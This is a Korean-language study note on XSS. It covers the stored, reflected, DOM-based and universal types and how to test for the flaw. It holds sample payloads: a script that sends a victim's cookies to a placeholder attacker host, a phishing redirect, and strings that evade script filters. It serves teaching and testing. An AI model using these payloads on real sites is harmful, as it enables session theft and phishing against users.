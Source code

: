 # Cross-Site-Scripting(XSS)

[클라이언트 사이드 취약점] 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행하도록 하는 취약점
* 다른 사용자의 정보를 추출하는 공격 기법 → 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있음
	- XSS 공격을 통해 가져오는 주요 정보 = 사용자가 웹 서버로 전송한 **고유 쿠키 값**
  - XSS 공격으로 악성 스크립트가 삽입된 페이지에 **이용자가 접속할 때**, 또는 **이용자가 해당 게시물을 열람할 때** 악성 스크립트 코드가 실행되어 쿠키 및 세션이 탈취될 수 있음
* *이용자가 삽입한 내용을 출력하는 기능*에서 XSS 공격이 발생함
	- 이용자의 입력을 받아들이는 부분의 스크립트 코드를 필터링하지 않음으로써 공격자가 스크립트 코드를 실행할 수 있게 됨
	- HTML, CSS, JS와 같은 코드가 포함된 게시글을 이용자가 조회할 경우 변조된 페이지를 보거나 악성 스크립트가 실행될 수 있음

#### XSS 공격의 특징
* 간단하지만 파괴력이 있는 것이 특징이며, 웹 애플리케이션 사이트에 방문하는 사용자를 공격하는 기법 중 최고로 손꼽힘
* SOP 보안 정책의 등장으로 서로 다른 출처(Origin)에서 정보를 읽는 행위가 이전에 비해 힘들어졌지만, SOP 정책을 우회하는 다양한 기술이 등장하면서 XSS 공격은 지속되고 있음

#### XSS 발생 종류
| 종류 | 설명 |
|--------|-----------------|
| Stored XSS | XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS |
| Reflected XSS | XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS |
| DOM-based XSS | XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS (Fragment는 서버 요청/응답에 포함되지 않음) |
| Universal XSS | 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 XSS 취약점 (SOP 정책을 우회함) |

### XSS 스크립트 예시
* XSS 스크립트
	- 이용자와의 상호작용 없이 **이용자의 권한으로 정보를 조회하거나 변경**하는 등의 행위가 가능함
		+ 가능한 이유: 이용자를 식별하기 위한 세션 및 쿠키가 웹 브라우저에 저장되어 있기 때문
	- 공격자는 자바스크립트를 통해 **이용자에게 보여지는 웹 페이지를 조작**하거나, **웹 브라우저의 위치를 임의의 주소로 변경**할 수 있음
* 자바스크립트를 실행하기 위한 태그들을 사용해 XSS 공격을 수행함
	- 쿠키 및 세션 탈취 코드
		```html
		<script>
			// 쿠키 생성(key: name, value: attacker)
			document.cookie = “name=attacker;”
			// 공격자 주소로 현재 페이지의 쿠키를 요청함
			new Image().src = “http://hacker-address.com/?cookie=" + document.cookie;
		</script>
		```
	- 페이지 변조 코드
		```html
		<script>
			// 이용자의 페이지 정보에 접근
			document;
			// 이용자의 페이지에 데이터 삽입
			document.write(“XSS Success”);
		</script>
		```
	- 위치 이동 공격 코드
		```html
		<script>
			// 이용자의 위치를 변경 (피싱 공격 등에 사용됨
			location.href = “http://hacker-address.com/phishing";
			// 새 창 열기
			window.open(“http://hacker-address.com");
		</script>
		```

<br/>

### Stored XSS
[가장 일반적인 XSS 공격 유형] 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 **조회**할 때 발생하는 XSS
* 이용자가 글을 저장하는 부분에 정상적인 평문이 아닌 스크립트 코드를 입력함 → 다른 이용자가 게시물을 열람하는 순간 악성 스크립트가 실행됨
* Stored XSS 취약점이 존재하는 곳 - 게시판이나 댓글, 자료실과 같이 **사용자가 입력한 값을 웹 애플리케이션에 저장해 두는 곳**
	- 스크립트에 대한 필터링을 하지 않으면 해당 게시물을 열람하는 일반 이용자가 악성 스크립트에 피해를 입게 됨
	- 특히 게시판은 불특정 다수에게 보여지기 때문에 해당 기능에서 XSS 취약점이 존재할 경우 높은 파급력을 가짐

<br/>

### Reflected XSS
서버가 **악성 스크립트가 담긴 요청을 출력**할 때 발생하는 XSS
* URL의 변수 부분처럼 스크립트 코드를 입력하는 동시에 결과가 바로 전해지는 공격 기법
	- URL과 같은 이용자의 요청에 의해 발생함 → *공격을 위해서는 타 이용자에게 악성 스크립트가 포함된 링크에 접속하도록 유도*해야 함
		+ 일부 검색 서비스에서 검색 결과를 응답에 포함하는데, 검색 문자열에 악성 스크립트가 포함되어 있다면 Reflected XSS가 발생할 수 있음
* 이용자에게 악성 스크립트가 포함된 링크를 전달하기 위해 Click Jacking 또는 Open Redirect 등 다른 취약점과 연계하여 사용함
	- 링크를 직접 전달할 경우 악성 스크립트 포함 여부를 쉽게 파악할 수 있음
	- 주로 공격 스크립트 코드를 인코딩한 후 전달하여 사용자가 쉽게 눈치채지 못하게 함

<br/>

## XSS 취약점을 찾는 방법
* 가장 기본적인 방법 - 표준 스크립트 문자열을 입력해보는 것
	```html
	<script>alert(document.cookie);</script>
	```
	- 기존 입력값 뒤에 이어서 추가되는 코드라면 코드 분석을 통해 ```<script>``` 앞부분에 ```‘>```또는 ```“>```와 같이 스크립트를 닫는 코드를 추가해야 함
	- 스크립트 검증 예시로 사용되는 코드
		```html
		"><script>alert(document.cookie);</script>
		"><ScRiPt>alert(document.cookie);</ScRiPt>
		"%3e%3cscript%3ealert(document.cookie);%3c/script%3e
		"><scr<script>ipt>alert(document.cookie);</scr</script>ipt>
		%00"><scriptalert(document.cookie);</script>
		```
		+ 두 번째 코드부터는 **script 문자열 필터링을 무력화**하기 위해 대﹒소문자 혼용, 인코딩 사용, 스크립트 안에 스크립트 태그 사용과 같은 다양한 공격 시도를 하는 패턴임
* 대부분의 애플리케이션은 XSS 공격을 막기 위해 기본적으로 블랙리스트 기반의 필터링을 수행함
	- 보안을 많이 신경쓰는 웹 사이트는 기본적으로 사용자의 입력값을 다양한 방식으로 차단함
	- 애플리케이션에서 사용자 입력값을 처리하는 부분이 상당히 많다 보니 XSS 취약점이 발견되는 경우가 많음
